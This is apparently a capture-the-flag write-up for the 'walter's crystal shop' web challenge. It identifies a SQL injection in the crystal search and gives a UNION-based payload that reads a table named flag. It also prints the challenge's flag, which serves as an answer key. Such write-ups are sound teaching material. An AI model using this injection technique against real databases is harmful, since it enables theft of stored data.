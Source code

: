# walter's crystal shop
![challenge](challenge.png)
### Challenge:
##### My buddy Walter is selling some crystals, check out his shop!

##### Links: [walters-crystal-shop.chal.nbctf.com](https://walters-crystal-shop.chal.nbctf.com)
##### Files: [walters_crystal_shop.zip](walters_crystal_shop.zip)

### Solution:

There's a sql injection in the crystal search, by looking at the source code we can see the flag is in a table called flag (:O).
Knowing this we can get our flag with this payload:

```
a' union select flag,2,3 from flag-- -
```

![flag](flag.png)


Flag: ```nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}```